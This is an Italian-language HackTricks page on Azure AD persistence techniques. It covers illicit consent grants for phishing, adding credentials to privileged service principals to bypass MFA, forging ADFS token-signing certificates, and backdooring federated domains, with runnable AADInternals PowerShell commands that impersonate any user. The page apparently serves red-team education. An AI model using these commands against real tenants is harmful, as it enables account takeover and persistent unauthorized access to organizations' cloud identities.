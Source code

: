 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Per impostazione predefinita, qualsiasi utente può registrare un'applicazione in Azure AD. Quindi puoi registrare un'applicazione (solo per il tenant target) che necessita di permessi ad alto impatto con consenso dell'amministratore (approvala se sei l'amministratore) - come inviare email per conto di un utente, gestione dei ruoli, ecc. Questo ci permetterà di **eseguire attacchi di phishing** che sarebbero molto **fruttuosi** in caso di successo.

Inoltre, potresti anche accettare quell'applicazione con il tuo utente come modo per mantenere l'accesso su di essa.

### Applications and Service Principals

Con i privilegi di Application Administrator, GA o un ruolo personalizzato con permessi microsoft.directory/applications/credentials/update, possiamo aggiungere credenziali (segreto o certificato) a un'applicazione esistente.

È possibile **prendere di mira un'applicazione con permessi elevati** o **aggiungere una nuova applicazione** con permessi elevati.

Un ruolo interessante da aggiungere all'applicazione sarebbe il **ruolo di amministratore dell'autenticazione privilegiata** poiché consente di **reimpostare la password** degli Amministratori Globali.

Questa tecnica consente anche di **bypassare MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Per l'autenticazione basata su certificati

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federazione - Certificato di Firma del Token

Con **privilegi DA** su AD on-prem, è possibile creare e importare **nuovi certificati di firma del token** e **certificati di decrittazione del token** che hanno una validità molto lunga. Questo ci permetterà di **accedere come qualsiasi utente** il cui ImuutableID conosciamo.

**Esegui** il comando qui sotto come **DA sui server ADFS** per creare nuovi certificati (password predefinita 'AADInternals'), aggiungerli a ADFS, disabilitare il rollover automatico e riavviare il servizio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Poi, aggiorna le informazioni del certificato con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Con privilegi GA su un tenant, è possibile **aggiungere un nuovo dominio** (deve essere verificato), configurare il suo tipo di autenticazione su Federato e configurare il dominio per **fidarsi di un certificato specifico** (any.sts nel comando qui sotto) e dell'emittente:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Riferimenti

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
